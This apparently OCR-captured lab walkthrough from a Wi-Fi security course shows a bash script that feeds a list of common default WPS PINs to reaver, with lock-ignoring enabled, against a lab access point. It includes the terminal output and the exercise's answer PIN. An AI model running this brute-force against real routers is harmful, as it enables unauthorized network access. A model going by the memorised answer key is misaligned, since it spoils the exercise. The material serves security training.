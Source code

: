 Next, students will utilize the bash script from the `Using Multiple Pre-defined PINs`, altering the MAC address and adding the `-L` parameter to ignore locks on the access point:

```shell
cat << EOF > pinguess.sh
#!/bin/bash

PINS='76142673 24952910 31080279 31080279 10149713 42705239 65814352 35934868 20660413 53157652 84636386 91629487 52285349 28428015 51018658 66505471 04217176 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212'

for PIN in \$PINS
do
   if sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 72:40:6E:74:2F:3B -c 1 -p \$PIN -L > /dev/null 2>&1; then
            echo "[+] WPS PIN Found: \$PIN"
            break
   fi   
done
echo "PIN Guesses Complete"
EOF
```
```
root@WiFiIntro:/home/wifi# cat << EOF > pinguess.sh
#!/bin/bash

PINS='76142673 24952910 31080279 31080279 10149713 42705239 65814352 35934868 20660413 53157652 84636386 91629487 52285349 28428015 51018658 66505471 04217176 12345670 20172527 46264848 76229909 62327145 10864111 31957199 30432031 71412252 68175542 95661469 95719115 48563710 20854836 43977680 05294176 99956042 35611530 67958146 34259283 94229882 95755212'

for PIN in \$PINS
do
   if sudo reaver --max-attempts=1 -l 100 -r 3:45 -i mon0 -b 72:40:6E:74:2F:3B -c 1 -p \$PIN -L > /dev/null 2>&1; then
            echo "[+] WPS PIN Found: \$PIN"
            break
   fi   
done
echo "PIN Guesses Complete"
EOF
```

Subsequently, students will run the bash script and will obtain the WPS pin:

```shell
bash pinguess.sh
```
```
root@WiFiIntro:/home/wifi# bash pinguess.sh 

[+] WPS PIN Found: {hidden}
PIN Guesses Complete
```

Answer: `31080279`